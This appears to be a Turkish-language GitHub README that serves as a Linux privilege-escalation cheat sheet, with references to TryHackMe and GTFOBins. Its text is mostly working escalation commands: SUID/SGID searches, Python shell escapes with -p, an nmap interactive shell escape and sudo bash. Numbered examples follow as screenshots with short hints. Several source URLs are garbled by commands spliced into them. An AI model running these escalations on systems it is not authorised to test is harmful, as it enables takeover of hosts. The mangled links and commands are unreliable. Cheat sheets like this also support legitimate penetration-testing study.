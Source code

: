 ## Privilege Escalation


### Yetki Yükseltme

sudo -l

![resim](https://user-images.githubusercontent.com/18248422/180613950-c1b54a74-9e83-4904-b0ec-6cb9aece6b6a.png)


yetki yükseltilebilecek dosyaları arama komutları

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm /4000

find / -user root -perm -4000 -exec ls -ldb {} \;

bir yetki yükseltme python komutu örneği;

usr/bin/python -c 'import os; os.execl("/bin/sh","sh","-p")'

python3 -c 'import pty; pty.spawn("/bin/bash")'

kaynak: https://gtfobins.github.io/gtfobifind usr/bin/python -c 'import os; os.execl("/bin/sh","sh","-p")'/ -user root -perm /4000ns/python/

bir başka yetki yükseltme komutu:

sudo bash

Privilege Escalation with Path Variable Manipulation                            

find / -perm -u=s -type f 2>/dev/null

Find all the SUID/SGID executables on the Debian VM:

find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null


https://www.siberportal.org/red-tefind / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/nullam/linux-penetration-tests/linux-sizma-testlerinde-hak-yukseltme-yontemleri/


### Yetki Yükseltme Örnek-1 :

![resim](https://user-images.githubusercontent.com/18248422/180613982-d2cd4029-a317-440d-83aa-ff6c2ecfe439.png)


python -c 'import pty; pty.spawn("/bin/sh")'

![resim](https://user-images.githubusercontent.com/18248422/180613991-3fe79f41-a97f-4e15-ab21-d0ed193f9f5c.png)


find / -perm -u=s -type f 2>/dev/null

![resim](https://user-images.githubusercontent.com/18248422/180613993-31d247d8-3a16-4b75-aab5-a2c7aa9dbe74.png)


nmap --interactive

nmap> !sh

![resim](https://user-images.githubusercontent.com/18248422/180614001-7d9c7fa1-9e8b-470a-a6f3-81f1bcce08d0.png)


### Yetki Yükseltme Örnek-2 :

![resim](https://user-images.githubusercontent.com/18248422/180614007-067ae96e-4b8b-48b7-b942-449fea1a5223.png)



### Yetki Yükseltme Örnek-3 :

cron ve tar ile;

kaynak: https://tryhackme.com/ronmap --interactiveom/linuxprivesc

![resim](https://user-images.githubusercontent.com/18248422/180614022-ad33d2fd-2850-478a-875f-1512147b6ddc.png)



### Yetki Yükseltme Örnek-4 :

![resim](https://user-images.githubusercontent.com/18248422/180614027-69f55613-ddf1-4b38-9c93-622b894dc545.png)



### Yetki Yükseltme Örnek-5 :

PATH ile;

![resim](https://user-images.githubusercontent.com/18248422/180614032-5d97d6d8-d51b-4418-8054-a1cf2d75cccb.png)



### Yetki Yükseltme Örnek-6 :

bash version <4.2-048 ise;

![resim](https://user-images.githubusercontent.com/18248422/180614037-c1116675-2be1-4495-ab40-e37f8beaa889.png)



### Yetki Yükseltme Örnek-7 :

![resim](https://user-images.githubusercontent.com/18248422/180614059-618f164e-4c2f-420b-b8a1-fe0dc9ef20e8.png)




### Yetki Yükseltme Örnek-8 :

"hidden history files" ile ;

![resim](https://user-images.githubusercontent.com/18248422/180614061-d6122402-87d3-4eef-8a60-84f8537d70a7.png)



### Yetki Yükseltme Örnek-9 :

"config files" ile ;

![resim](https://user-images.githubusercontent.com/18248422/180614066-c536e501-0a18-4e2e-a2b0-a49ea598b9e3.png)




### Yetki Yükseltme Örnek-10 :

"root_keys - SSH Keys, backups ile;

![resim](https://user-images.githubusercontent.com/18248422/180614070-00b4e799-e60f-4374-8001-757d22b0a0e7.png)



### Yetki Yükseltme Örnek-11 :

"NFS servisi ile remote user;

![resim](https://user-images.githubusercontent.com/18248422/180614075-ecd01773-4194-4d15-b19b-b4a49a35b235.png)




### Yetki Yükseltme Örnek-12 :

"Linux Exploit Suggester 2 ile;

![resim](https://user-images.githubusercontent.com/18248422/180614079-9a265967-67a8-44d1-8c94-745ffe9e7c1e.png)


## creted by [@ahmetkara](https://github.com/ahmetQara)



